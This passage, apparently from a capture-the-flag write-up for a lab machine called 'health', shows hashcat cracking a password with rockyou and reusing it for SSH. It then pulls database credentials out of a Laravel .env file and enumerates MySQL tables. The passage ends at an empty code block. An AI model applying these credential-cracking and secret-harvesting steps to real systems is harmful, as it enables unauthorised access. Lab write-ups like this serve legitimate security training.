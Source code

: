 ```bash
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2077 H/s (5.94ms) @ Accel:64 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 71168/14344385 (0.50%)
Rejected.........: 0/71168 (0.00%)
Restore.Point....: 70912/14344385 (0.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:9728-9999
Candidate.Engine.: Device Generator
Candidates.#1....: fullysick -> citadel

Started: Sat Sep 17 22:31:27 2022
Stopped: Sat Sep 17 22:32:03 2022
```

that password is also valid as an ssh password for susanne  
```bash
susanne@health:~$ wc -c user.txt
33 user.txt
```

## Privesc manipulating the  MySQL db
```bash
grep DB_ /var/www/html/.env
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+
```
```bash
mysql -D laravel -u laravel -p
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| laravel            |
+--------------------+
2 rows in set (0.00 sec)

mysql> use laravel;
Database changed
mysql> show tables;
+------------------------+
| Tables_in_laravel      |
+------------------------+
| failed_jobs            |
| migrations             |
| password_resets        |
| personal_access_tokens |
| tasks                  |
| users                  |
+------------------------+
6 rows in set (0.00 sec)

mysql> select * from users;
Empty set (0.00 sec)
```
there's no users here because that's the database for the health app  
but, if we create a webhook through the webapp we can see the tasks beeing created in the DB  
```bash
```